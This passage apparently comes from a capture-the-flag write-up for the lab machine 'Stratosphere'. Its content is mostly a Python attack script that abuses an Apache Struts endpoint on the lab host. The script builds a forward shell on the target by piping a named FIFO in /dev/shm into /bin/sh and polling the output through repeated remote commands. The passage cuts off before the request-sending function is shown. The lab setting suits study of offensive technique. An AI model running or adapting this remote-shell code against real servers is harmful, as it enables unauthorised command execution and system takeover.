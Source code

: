 Here’s the full code:

    
    
    #!/usr/bin/python3
    # -*- coding: utf-8 -*-
    
    # source: https://github.com/rapid7/metasploit-framework/issues/8064
    
    import base64
    #import httplib
    import random
    import requests
    import threading
    import time
    #import urllib2
    
    class Stratosphere(object):
    
        def __init__(self, interval=1.3, proxies='http://127.0.0.1:8080'):
            self.url = r"http://10.10.10.64/Monitoring/example/Welcome.action"
            self.proxies = {'http' : proxies}
            session = random.randrange(10000,99999)
            print(f"[*] Session ID: {session}")
            self.stdin = f'/dev/shm/input.{session}'
            self.stdout = f'/dev/shm/output.{session}'
            self.interval = interval
    
            # set up shell
            print("[*] Setting up fifo shell on target")
            MakeNamedPipes = f"""mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}"""
            self.RunRawCmd(MakeNamedPipes, timeout=0.1)
    
            # set up read thread
            print("[*] Setting up read thread")
            self.interval = interval
            thread = threading.Thread(target=self.ReadThread, args=())
            thread.daemon = True
            thread.start()
    
        def ReadThread(self):
            GetOutput = f"""/bin/cat {self.stdout}"""
            while True:
                result = self.RunRawCmd(GetOutput) #, proxy=None)
                if result:
                    print(result)
                    ClearOutput = f"""echo -n "" > {self.stdout}"""
                    self.RunRawCmd(ClearOutput)
                time.sleep(self.interval)
    